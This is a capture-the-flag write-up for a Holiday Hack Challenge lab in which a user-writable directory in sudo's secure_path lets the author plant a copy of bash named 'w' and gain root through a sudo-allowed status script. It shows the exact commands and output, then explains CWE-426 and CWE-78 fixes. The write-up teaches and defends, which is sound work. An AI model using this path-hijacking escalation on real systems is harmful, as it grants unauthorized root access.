

# Neighborhood Watch Bypass
Difficulty: <span style="color:red">❄</span> ❄ ❄ ❄ ❄  
Assist Kyle at the old data center with a fire alarm that just won't chill.

## Hints
### What Are My Powers?
You know, Sudo is a REALLY powerful tool. It allows you to run executables as ROOT!!! There is even a handy switch that will tell you what powers your user has.
### Path Hijacking
Be careful when writing scripts that allow regular users to run them. One thing to be wary of is not using full paths to executables...these can be hijacked.

## motd
```bash
🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨
              DOSIS NEIGHBORHOOD FIRE ALARM SYSTEM - LOCKOUT MODE
🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨

🚨 EMERGENCY ALERT: Fire alarm system admin access has been compromised! 🚨
The fire safety systems are experiencing interference and 
admin privileges have been mysteriously revoked. The neighborhood's fire 
protection infrastructure is at risk!

⚠️ CURRENT STATUS: Limited to standard user access only
🔒 FIRE SAFETY SYSTEMS: Partially operational but restricted
🎯 MISSION CRITICAL: Restore full fire alarm system control

Your mission: Find a way to bypass the current restrictions and elevate to 
fire safety admin privileges. Once you regain full access, run the special 
command `/etc/firealarm/restore_fire_alarm` to restore complete fire alarm system control and 
protect the Dosis neighborhood from potential emergencies.

🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨🔥🚨
```

## Solution
I started by attempting to run `/etc/firealarm/restore_fire_alarm` directly, but as expected, I was met with a permission error:
```bash
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ /etc/firealarm/restore_fire_alarm
bash: /etc/firealarm/restore_fire_alarm: Permission denied
```

Following the `sudo` hint, I checked what commands `chiuser` is permitted to execute. The output shown that `/usr/local/bin/system_status.sh` can be run as `root` without a password, and the `PATH` included the user-controlled directory `/home/chiuser/bin`:
```bash
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ sudo -l
Matching Defaults entries for chiuser on 245ce0604c6a:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    secure_path=/home/chiuser/bin\:/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, env_keep+="API_ENDPOINT
    API_PORT RESOURCE_ID HHCUSERNAME", env_keep+=PATH

User chiuser may run the following commands on 245ce0604c6a:
    (root) NOPASSWD: /usr/local/bin/system_status.sh
```

I inspected the contents of the allowed script, `/usr/local/bin/system_status.sh`:
```bash
#!/bin/bash
echo "=== Dosis Neighborhood Fire Alarm System Status ==="
echo "Fire alarm system monitoring active..."
echo ""

echo "System resources (for alarm monitoring):"
free -h

echo -e "\nDisk usage (alarm logs and recordings):"
df -h

echo -e "\nActive fire department connections:"
w

echo -e "\nFire alarm monitoring processes:"
ps aux | grep -E "(alarm|fire|monitor|safety)" | head -5 || \
    echo "No active fire monitoring processes detected"

echo ""
echo "🔥 Fire Safety Status: All systems operational"
echo "🚨 Emergency Response: Ready"
echo "📍 Coverage Area: Dosis Neighborhood (all sectors)"
```

The script called several standard system utilities: `free`, `df`, `w`, `ps`, `grep`, and `head`. Crucially, it called them using relative paths (e.g., just `w`) rather than absolute paths (e.g., `/usr/bin/w`).

This created a classic Path Hijacking vulnerability. Because `/home/chiuser/bin` was listed first in the `secure_path`, placing a malicious executable named `w` in that directory, the script would execute this binary instead of the real system command and it would do so with root privileges.

To exploit this, I decided to replace the `w` command with a shell. I copied the system's `bash` binary to the user's local bin directory as `w`:
```bash
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ cp /bin/bash bin/w 
```

Now, when I executed the script via `sudo`, it ran `/home/chiuser/bin/w`. Since the script was running as root, this spawned an administrative shell:
```bash
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ sudo /usr/local/bin/system_status.sh
=== Dosis Neighborhood Fire Alarm System Status ===
Fire alarm system monitoring active...

System resources (for alarm monitoring):
               total        used        free      shared  buff/cache   available
Mem:            31Gi       1.6Gi        22Gi       1.0Mi       7.5Gi        29Gi
Swap:             0B          0B          0B

Disk usage (alarm logs and recordings):
Filesystem      Size  Used Avail Use% Mounted on
overlay         296G   16G  267G   6% /
tmpfs            64M     0   64M   0% /dev
shm              64M     0   64M   0% /dev/shm
/dev/sda1       296G   16G  267G   6% /etc/hosts
tmpfs            16G     0   16G   0% /proc/acpi
tmpfs            16G     0   16G   0% /sys/firmware

Active fire department connections:
root@245ce0604c6a:/home/chiuser# 
```

With full administrative access secured, I executed the `/etc/firealarm/restore_fire_alarm` command to solve the challenge:
```bash
root@245ce0604c6a:/home/chiuser# /etc/firealarm/restore_fire_alarm
🔥🚨 FIRE ALARM SYSTEM: Attempting to restore admin privileges...
🔒 BYPASSING SECURITY RESTRICTIONS...
📡 Connecting to fire safety control center: https://2025.holidayhackchallenge.com:443/turnstile?rid=8a6fc933-0adb-4e29-ab13-78a13560e1de
🎯 SUCCESS! Fire alarm system admin access RESTORED!
🚨 DOSIS NEIGHBORHOOD FIRE PROTECTION: FULLY OPERATIONAL
✅ All fire safety systems are now under proper administrative control
🔥 Emergency response capabilities: ACTIVE
🏠 Neighborhood fire protection: SECURED

======================================================================
   CONGRATULATIONS! You've successfully restored fire alarm system
   administrative control and protected the Dosis neighborhood!
======================================================================

🔥🚨 FIRE ALARM SYSTEM RESTORATION COMPLETE 🚨🔥
```

## Dissecting the attack

<table>
     <thead>
         <tr>
             <th style="text-align:center">Phase</th>
             <th style="text-align:center">Vulnerability (CWE)</th>
             <th style="text-align:center">Mitigation</th>
         </tr>
     </thead>
     <tbody>
         <tr>
             <td rowspan="1"><strong>1. Configuration</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-426</strong><br/>Untrusted Search Path<br/><em>(User Directory in Secure Path)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>System Hardening</strong><br/><em>(Sanitize Sudo Environment)</em> </td>
         </tr>
         <tr>
             <td rowspan="1"><strong>2. Execution</strong><br/></td>
             <td style="border: 1px solid #ddd; padding:10px;"> <strong>CWE-78</strong><br/>Improper Neutralization of Special Elements used in an OS Command<br/><em>(Relative Path Execution)</em> </td>
             <td style="background-color:#14532d; color:white; border-radius:5px; padding:10px; border: 2px dashed #22c55e;"> <strong>Secure Coding</strong><br/><em>(Use Absolute Paths)</em> </td>
         </tr>
     </tbody>
 </table>

### Fixing the Search Path (CWE-426)
**Vulnerability:** The sudo configuration (`/etc/sudoers`) explicitly added a user-writable directory (`/home/chiuser/bin`) to the `secure_path`. This undermines the security model of sudo, which usually resets the environment to known safe locations. It allows a low-privileged user to place a binary in their own folder that sudo will trust and execute as root.  
**Fix:** Never include user-writable directories in the `secure_path` or `env_keep+=PATH` directives for privileged commands.  
**Vulnerable Config:**
```bash
Defaults secure_path="/home/chiuser/bin:/usr/local/sbin:/usr/local/bin:..."
```
**Secure Config:**
```bash
# FIX: Only include system-owned, root-writable directories
Defaults secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"
```
**Impact:** Even if the user creates a malicious binary named `w`, sudo will ignore it and execute the legitimate `/usr/bin/w` because the user's directory is no longer in the search path.

### Fixing the Script Execution (CWE-78 / CWE-426)
**Vulnerability:** The script `/usr/local/bin/system_status.sh` executed system commands (`w`, `df`, `free`) using Relative Paths. This forces the shell to look through the `$PATH` variable to find the executable. When combined with the misconfigured sudoers file, this allowed the attacker to intercept the call to `w`.  
**Fix:** Always use Absolute Paths in scripts that run with elevated privileges. This hardcodes the location of the executable, preventing the shell from searching untrusted directories.  
**Vulnerable Code:**
```bash
echo -e "\nActive fire department connections:"
w  # FLAW: Relies on $PATH
```
**Secure Code:**
```bash
echo -e "\nActive fire department connections:"
/usr/bin/w  # FIX: Explicit path ensures the real binary is run
```
**Impact:** The script becomes immune to path hijacking. It will specifically launch `/usr/bin/w` regardless of what malicious files exist in the user's bin folder.